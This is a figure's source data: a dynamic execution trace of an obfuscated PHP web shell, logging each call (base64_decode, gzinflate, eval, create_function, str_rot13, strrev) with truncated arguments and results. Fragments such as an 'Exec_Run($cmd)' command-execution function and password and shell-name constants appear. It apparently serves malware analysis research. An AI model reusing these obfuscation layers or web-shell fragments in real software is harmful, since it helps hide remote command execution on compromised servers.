

Source data for this figure (header and first rows):
uuid, file_md5, index, source, target, argc, argv, return, dynamic
69c122f31c6cf207313283e171afb07f, 4c59152d68221ca2db756fd497aec157, 0, __main__, zend_compile_file, 2, {"value": []}, {"value": "26262609413C39413C3A413C50514…, []
69c122f31c6cf207313283e171afb07f, 4c59152d68221ca2db756fd497aec157, 1, __main__, error_reporting, 1, {"value": [[0, "new_error_level", 5]]}, {"value": "void"}, [0]
69c122f31c6cf207313283e171afb07f, 4c59152d68221ca2db756fd497aec157, 2, __main__, set_time_limit, 1, {"value": [[0, "seconds", 0]]}, {"value": "void"}, [0]
69c122f31c6cf207313283e171afb07f, 4c59152d68221ca2db756fd497aec157, 3, __main__, header, 1, {"value": [[0, "header", "content-Type: …, {"value": "void"}, [0]
69c122f31c6cf207313283e171afb07f, 4c59152d68221ca2db756fd497aec157, 4, __main__, zend_fetch_r_server, 1, {"value": [[0, "op1", "_SERVER"]]}, {"value": []}, [0]
69c122f31c6cf207313283e171afb07f, 4c59152d68221ca2db756fd497aec157, 5, __main__, stristr, 2, {"value": [[0, "haystack", "127.0.0.1:50…, {"value": false}, [135, 0]
69c122f31c6cf207313283e171afb07f, 4c59152d68221ca2db756fd497aec157, 6, __main__, base64_decode, 1, {"value": [[0, "str", "Q3JlYXRlX0Z1bmN0a…, {"value": "Create_Function"}, [0]
69c122f31c6cf207313283e171afb07f, 4c59152d68221ca2db756fd497aec157, 7, __main__, create_function, 2, {"value": [[0, "args", ""], [1, "code", …, {"value": "\\x00lambda_1"}, [0, 0]
69c122f31c6cf207313283e171afb07f, 4c59152d68221ca2db756fd497aec157, 8, create_function, zend_compile_string, 2, {"value": [[0, "source_string", "functio…, {"value": "003E"}, [0]
69c122f31c6cf207313283e171afb07f, 4c59152d68221ca2db756fd497aec157, 9, __main__, __lambda_func, 0, {"value": []}, {"value": null}, []
69c122f31c6cf207313283e171afb07f, 4c59152d68221ca2db756fd497aec157, 10, __lambda_func, base64_decode, 1, {"value": [[0, "str", "\n7L1pb+tKmib4vYH…, {"value": "\\xec\\xbdio\\xebJ\\x9a&\\xf8…, [0]
69c122f31c6cf207313283e171afb07f, 4c59152d68221ca2db756fd497aec157, 11, __lambda_func, gzinflate, 1, {"value": [[0, "data", "\\xec\\xbdio\\xe…, {"value": "\r\nob_start();define('myaddr…, [0]
69c122f31c6cf207313283e171afb07f, 4c59152d68221ca2db756fd497aec157, 12, __lambda_func, eval, 1, {"value": [[0, "phpcode", "\r\nob_start(…, {"value": null}, [0]
69c122f31c6cf207313283e171afb07f, 4c59152d68221ca2db756fd497aec157, 13, eval, zend_compile_string, 2, {"value": [[0, "source_string", "\r\nob_…, {"value": "3C415051423C41423C41423C41423…, [0]
69c122f31c6cf207313283e171afb07f, 4c59152d68221ca2db756fd497aec157, 14, eval, ob_start, 0, {"value": []}, {"value": "void"}, []
69c122f31c6cf207313283e171afb07f, 4c59152d68221ca2db756fd497aec157, 15, eval, zend_fetch_r_server, 1, {"value": [[0, "op1", "_SERVER"]]}, {"value": []}, [0]
69c122f31c6cf207313283e171afb07f, 4c59152d68221ca2db756fd497aec157, 16, eval, define, 2, {"value": [[0, "constant_name", "myaddre…, {"value": "void"}, [0, 0]
69c122f31c6cf207313283e171afb07f, 4c59152d68221ca2db756fd497aec157, 17, eval, define, 2, {"value": [[0, "constant_name", "postpas…, {"value": "void"}, [0, 0]
69c122f31c6cf207313283e171afb07f, 4c59152d68221ca2db756fd497aec157, 18, eval, define, 2, {"value": [[0, "constant_name", "shellna…, {"value": "void"}, [0, 0]
69c122f31c6cf207313283e171afb07f, 4c59152d68221ca2db756fd497aec157, 19, eval, define, 2, {"value": [[0, "constant_name", "myurl"]…, {"value": "void"}, [0, 0]
69c122f31c6cf207313283e171afb07f, 4c59152d68221ca2db756fd497aec157, 20, eval, aaxxfd, 2, {"value": [[0, "AtrIng", "==DsX0jBmIzpxN…, {"value": "void"}, [0, 0]
69c122f31c6cf207313283e171afb07f, 4c59152d68221ca2db756fd497aec157, 21, aaxxfd, strtr, 3, {"value": [[0, "str", "Strprot1a"], [1, …, {"value": "Str_rot13"}, [0, 0, 0]
69c122f31c6cf207313283e171afb07f, 4c59152d68221ca2db756fd497aec157, 22, aaxxfd, strtr, 3, {"value": [[0, "str", "robprQ_06rfnO"], …, {"value": "rqbprQ_46rfnO"}, [0, 0, 0]
69c122f31c6cf207313283e171afb07f, 4c59152d68221ca2db756fd497aec157, 23, aaxxfd, strrev, 1, {"value": [[0, "str", "rqbprQ_46rfnO"]]}, {"value": "Onfr64_Qrpbqr"}, [0]
69c122f31c6cf207313283e171afb07f, 4c59152d68221ca2db756fd497aec157, 24, aaxxfd, str_rot13, 1, {"value": [[0, "str", "Onfr64_Qrpbqr"]]}, {"value": "Base64_Decode"}, [0]
69c122f31c6cf207313283e171afb07f, 4c59152d68221ca2db756fd497aec157, 25, aaxxfd, base64_decode, 1, {"value": [[0, "str", "T2kw"]]}, {"value": "Oi0"}, [0]
69c122f31c6cf207313283e171afb07f, 4c59152d68221ca2db756fd497aec157, 26, aaxxfd, base64_decode, 1, {"value": [[0, "str", "MDl5"]]}, {"value": "09y"}, [0]
69c122f31c6cf207313283e171afb07f, 4c59152d68221ca2db756fd497aec157, 27, aaxxfd, strtr, 3, {"value": [[0, "str", "hiJnOAzo1MOK0EKL0…, {"value": "h9Jn0Azo1M0KyEKLyW3D"}, [0, 0, 0]
69c122f31c6cf207313283e171afb07f, 4c59152d68221ca2db756fd497aec157, 28, aaxxfd, strrev, 1, {"value": [[0, "str", "h9Jn0Azo1M0KyEKLy…, {"value": "D3WyLKEyK0M1ozA0nJ9h"}, [0]
69c122f31c6cf207313283e171afb07f, 4c59152d68221ca2db756fd497aec157, 29, aaxxfd, str_rot13, 1, {"value": [[0, "str", "D3WyLKEyK0M1ozA0n…, {"value": "Q3JlYXRlX0Z1bmN0aW9u"}, [0]
69c122f31c6cf207313283e171afb07f, 4c59152d68221ca2db756fd497aec157, 30, aaxxfd, base64_decode, 1, {"value": [[0, "str", "Q3JlYXRlX0Z1bmN0a…, {"value": "Create_Function"}, [0]
69c122f31c6cf207313283e171afb07f, 4c59152d68221ca2db756fd497aec157, 31, aaxxfd, strrev, 1, {"value": [[0, "str", "==DsX0jBmIzpxNvol…, {"value": "MaIhL3Eco24tEKuyL19FqJ4bWTAgM…, [0]
69c122f31c6cf207313283e171afb07f, 4c59152d68221ca2db756fd497aec157, 32, aaxxfd, str_rot13, 1, {"value": [[0, "str", "MaIhL3Eco24tEKuyL…, {"value": "ZnVuY3Rpb24gRXhlY19SdW4oJGNtZ…, [0]
69c122f31c6cf207313283e171afb07f, 4c59152d68221ca2db756fd497aec157, 33, aaxxfd, base64_decode, 1, {"value": [[0, "str", "ZnVuY3Rpb24gRXhlY…, {"value": "function Exec_Run($cmd)\r\n{\…, [0]
69c122f31c6cf207313283e171afb07f, 4c59152d68221ca2db756fd497aec157, 34, aaxxfd, create_function, 2, {"value": [[0, "args", ""], [1, "code", …, {"value": "\\x00lambda_2"}, [0, 0]
69c122f31c6cf207313283e171afb07f, 4c59152d68221ca2db756fd497aec157, 35, create_function, zend_compile_string, 2, {"value": [[0, "source_string", "functio…, {"value": "003E"}, [0]
69c122f31c6cf207313283e171afb07f, 4c59152d68221ca2db756fd497aec157, 36, aaxxfd, __lambda_func, 0, {"value": []}, {"value": "void"}, []
69c122f31c6cf207313283e171afb07f, 4c59152d68221ca2db756fd497aec157, 37, eval, aaxxfd, 2, {"value": [[0, "AtrIng", "=0aPAfGXbHJnxO…, {"value": "void"}, [0, 0]
69c122f31c6cf207313283e171afb07f, 4c59152d68221ca2db756fd497aec157, 38, aaxxfd, strtr, 3, {"value": [[0, "str", "Strprot1a"], [1, …, {"value": "Str_rot13"}, [0, 0, 0]
69c122f31c6cf207313283e171afb07f, 4c59152d68221ca2db756fd497aec157, 39, aaxxfd, strtr, 3, {"value": [[0, "str", "robprQ_06rfnO"], …, {"value": "rqbprQ_46rfnO"}, [0, 0, 0]
69c122f31c6cf207313283e171afb07f, 4c59152d68221ca2db756fd497aec157, 40, aaxxfd, strrev, 1, {"value": [[0, "str", "rqbprQ_46rfnO"]]}, {"value": "Onfr64_Qrpbqr"}, [0]
69c122f31c6cf207313283e171afb07f, 4c59152d68221ca2db756fd497aec157, 41, aaxxfd, str_rot13, 1, {"value": [[0, "str", "Onfr64_Qrpbqr"]]}, {"value": "Base64_Decode"}, [0]
69c122f31c6cf207313283e171afb07f, 4c59152d68221ca2db756fd497aec157, 42, aaxxfd, base64_decode, 1, {"value": [[0, "str", "T2kw"]]}, {"value": "Oi0"}, [0]
69c122f31c6cf207313283e171afb07f, 4c59152d68221ca2db756fd497aec157, 43, aaxxfd, base64_decode, 1, {"value": [[0, "str", "MDl5"]]}, {"value": "09y"}, [0]
69c122f31c6cf207313283e171afb07f, 4c59152d68221ca2db756fd497aec157, 44, aaxxfd, strtr, 3, {"value": [[0, "str", "hiJnOAzo1MOK0EKL0…, {"value": "h9Jn0Azo1M0KyEKLyW3D"}, [0, 0, 0]
69c122f31c6cf207313283e171afb07f, 4c59152d68221ca2db756fd497aec157, 45, aaxxfd, strrev, 1, {"value": [[0, "str", "h9Jn0Azo1M0KyEKLy…, {"value": "D3WyLKEyK0M1ozA0nJ9h"}, [0]
69c122f31c6cf207313283e171afb07f, 4c59152d68221ca2db756fd497aec157, 46, aaxxfd, str_rot13, 1, {"value": [[0, "str", "D3WyLKEyK0M1ozA0n…, {"value": "Q3JlYXRlX0Z1bmN0aW9u"}, [0]
69c122f31c6cf207313283e171afb07f, 4c59152d68221ca2db756fd497aec157, 47, aaxxfd, base64_decode, 1, {"value": [[0, "str", "Q3JlYXRlX0Z1bmN0a…, {"value": "Create_Function"}, [0]
69c122f31c6cf207313283e171afb07f, 4c59152d68221ca2db756fd497aec157, 48, aaxxfd, strrev, 1, {"value": [[0, "str", "=0aPAfGXbHJnxOPVX…, {"value": "MaIhL3Eco24tL3AmK2ygMltxnJ1aX…, [0]
69c122f31c6cf207313283e171afb07f, 4c59152d68221ca2db756fd497aec157, 49, aaxxfd, str_rot13, 1, {"value": [[0, "str", "MaIhL3Eco24tL3AmK…, {"value": "ZnVuY3Rpb24gY3NzX2ltZygkaW1nK…, [0]
69c122f31c6cf207313283e171afb07f, 4c59152d68221ca2db756fd497aec157, 50, aaxxfd, base64_decode, 1, {"value": [[0, "str", "ZnVuY3Rpb24gY3NzX…, {"value": "function css_img($img){\r\n\t…, [0]
69c122f31c6cf207313283e171afb07f, 4c59152d68221ca2db756fd497aec157, 51, aaxxfd, create_function, 2, {"value": [[0, "args", ""], [1, "code", …, {"value": "\\x00lambda_3"}, [0, 0]
69c122f31c6cf207313283e171afb07f, 4c59152d68221ca2db756fd497aec157, 52, create_function, zend_compile_string, 2, {"value": [[0, "source_string", "functio…, {"value": "003E"}, [0]
69c122f31c6cf207313283e171afb07f, 4c59152d68221ca2db756fd497aec157, 53, aaxxfd, __lambda_func, 0, {"value": []}, {"value": "void"}, []
69c122f31c6cf207313283e171afb07f, 4c59152d68221ca2db756fd497aec157, 54, eval, aaxxfd, 2, {"value": [[0, "AtrIng", "==DsX0DsWbDQ7f…, {"value": "void"}, [0, 0]
69c122f31c6cf207313283e171afb07f, 4c59152d68221ca2db756fd497aec157, 55, aaxxfd, strtr, 3, {"value": [[0, "str", "Strprot1a"], [1, …, {"value": "Str_rot13"}, [0, 0, 0]
69c122f31c6cf207313283e171afb07f, 4c59152d68221ca2db756fd497aec157, 56, aaxxfd, strtr, 3, {"value": [[0, "str", "robprQ_06rfnO"], …, {"value": "rqbprQ_46rfnO"}, [0, 0, 0]
69c122f31c6cf207313283e171afb07f, 4c59152d68221ca2db756fd497aec157, 57, aaxxfd, strrev, 1, {"value": [[0, "str", "rqbprQ_46rfnO"]]}, {"value": "Onfr64_Qrpbqr"}, [0]
69c122f31c6cf207313283e171afb07f, 4c59152d68221ca2db756fd497aec157, 58, aaxxfd, str_rot13, 1, {"value": [[0, "str", "Onfr64_Qrpbqr"]]}, {"value": "Base64_Decode"}, [0]
69c122f31c6cf207313283e171afb07f, 4c59152d68221ca2db756fd497aec157, 59, aaxxfd, base64_decode, 1, {"value": [[0, "str", "T2kw"]]}, {"value": "Oi0"}, [0]
... 805 more rows
